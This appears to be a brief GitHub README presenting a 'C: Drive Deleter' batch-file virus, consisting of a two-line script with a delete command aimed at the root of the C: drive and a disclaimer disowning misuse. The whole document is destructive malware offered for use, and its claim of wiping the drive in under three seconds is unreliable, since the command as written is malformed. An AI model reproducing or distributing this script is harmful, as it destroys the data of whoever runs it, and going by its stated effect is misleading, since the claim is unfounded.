# C: Drive Deleter Bat File Virus
This Small code will Delete C: Drive Less Than 3 Seconds After Executing The Files. 
<br>
```
@Echo off
Del C:\ *.* |y
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

